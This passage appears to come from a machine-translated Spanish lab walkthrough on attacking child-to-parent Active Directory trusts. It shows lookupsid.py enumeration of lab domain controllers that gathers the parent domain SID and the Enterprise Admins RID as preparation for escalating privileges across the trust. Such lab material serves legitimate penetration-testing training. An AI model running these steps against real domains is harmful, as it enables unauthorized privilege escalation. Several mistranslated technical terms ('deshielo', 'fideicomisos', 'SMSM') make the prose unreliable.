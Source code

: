 ```shell-session
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

Podemos filtrar el ruido vitando la salida de comando a GREP y buscando solo el dominio SID.

#### Buscando el dominio sid

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

A continuación, podemos volver a ejecutar el comando, dirigirse al controlador de dominio InlaneFreight (DC01) en 172.16.5.5 y tomar el dominio`SID S-1-5-21-3842939050-3880317879-2865463114`y adjunte el deshielo del grupo de administradores empresariales.[Aquí](https://adsecurity.org/?p=1001)es una lista útil de SMSM conocidos.

#### Agarrando el dominio sid y adjuntar a Enterprise Admin's Rid

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

